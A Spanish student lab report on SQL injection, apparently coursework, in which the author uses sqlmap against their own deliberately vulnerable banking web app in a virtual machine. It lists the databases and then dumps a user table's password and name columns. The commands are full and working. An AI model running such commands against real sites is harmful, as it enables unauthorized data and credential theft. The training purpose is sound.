 # Práctica 13 - Inyección SQL

Se pide:
Contestad, razonad y justificad las siguientes cuestiones que se plantean.
Realizad una guía paso a paso con capturas de las tareas que se piden.

1. **Comprobad con SQLmap la seguridad de la aplicación WEB de la práctica 11 en la que hemos construído las sentencias "concatenaditas". Haced dicha comprobación con la aplicación WEB desplegada en una máquina virtual.**

Lo comprobamos sobre la pagina oficinas, con la extension HTTP headers de firefox, obtenemos la siguiente peticion:

![alt text](<Screenshot from 2024-11-11 17-29-02.png>)

Ahora sabemos que el parametro que queremos inyectar es la ciudad, por lo que lanzamos el siguiente comando:

```bash
sqlmap -u "http://192.168.4.242/banco/oficinas.php" --data="ciudad=Badajoz" --dbs --batch
```

- -u: URL de la pagina
- --data: Parametros de la peticion
- --dbs: Nos muestra las bases de datos
- --batch: Ejecuta el comando sin preguntar

![alt text](<Screenshot from 2024-11-11 17-34-02.png>)

A partir de aqui, podemos seguir inyectando la base de datos, tablas, columnas, etc. Hasta obtener la informacion que queramos. Yo he obtenido la siguiente informacion:

```bash
sqlmap -u "http://192.168.4.242/banco/oficinas.php" --data="ciudad=Badajoz" -D banco -T Usuario -C contr,nombre --dump --batch
```

- -D: Base de datos
- -T: Tabla
- -C: Columnas

![alt text](<Screenshot from 2024-11-11 17-38-57.png>)
